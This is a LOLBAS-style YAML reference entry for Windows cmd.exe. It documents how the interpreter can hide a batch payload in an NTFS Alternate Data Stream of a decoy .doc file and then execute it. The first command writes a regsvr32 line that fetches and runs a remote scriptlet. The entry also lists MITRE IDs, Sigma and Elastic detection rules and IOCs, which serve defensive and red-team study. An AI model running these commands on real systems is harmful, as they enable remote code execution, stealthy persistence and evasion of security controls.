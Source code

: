 ```yaml
---
Name: Cmd.exe
Description: The command-line interpreter in Windows
Author: 'Ye Yint Min Thu Htut'
Created: 2019-06-26
Commands:
  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
    Description: Add content to an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1059.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: cmd.exe - < fakefile.doc:payload.bat
    Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1059.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\cmd.exe
  - Path: C:\Windows\SysWOW64\cmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/688df3405afd778d63a2ea36a084344a2052848c/rules/windows/process_creation/process_creation_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_ads_file_creation.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
  - IOC: cmd.exe executing files from alternate data streams.
  - IOC: cmd.exe creating/modifying file contents in an alternate data stream.
Resources:
  - Link: https://twitter.com/yeyint_mth/status/1143824979139579904
Acknowledgement:
  - Person: r0lan
    Handle: '@yeyint_mth'
---
```

